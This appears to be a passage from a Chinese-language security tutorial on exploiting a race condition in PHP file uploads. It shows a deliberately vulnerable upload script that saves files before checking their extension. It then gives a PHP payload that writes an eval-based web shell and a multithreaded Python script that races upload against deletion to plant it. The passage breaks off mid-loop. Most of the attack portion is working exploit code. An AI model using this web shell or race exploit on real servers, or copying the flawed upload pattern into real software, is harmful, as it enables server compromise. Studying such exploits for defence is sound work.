 #####演示代码

```php
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./";

$filename = $_FILES['file']['name'];

if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success.file path is: ".$newfile."\n<br />";

if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
    die("error:upload the file type is not allowed，delete the file！");
}
?>
```

首先将文件上传到服务器，然后检测文件后缀名，如果不符合条件，就删掉，我们的利用思路是这样的，首先上传一个php文件，内容为：

```php
<?php fputs(fopen("./info.php", "w"), '<?php @eval($_POST["drops"]) ?>'); ?>
```

当然这个文件会被立马删掉，所以我们使用多线程并发的访问上传的文件，总会有一次在上传文件到删除文件这个时间段内访问到上传的php文件，一旦我们成功访问到了上传的文件，那么它就会向服务器写一个shell。利用代码如下：

```python
import os
import requests
import threading

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.url = "http://127.0.0.1:8080/upload/shell0.php"
        self.uploadUrl = "http://127.0.0.1:8080/upload/copy.php"

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print("[*]create file info.php success")
            os._exit(0)

    def _upload(self):
        print("upload file.....")
        file = {"file":open("shell0.php","r")}
        requests.post(self.uploadUrl, files=file)

    def run(self):
        while True:
            for i in range(5):
```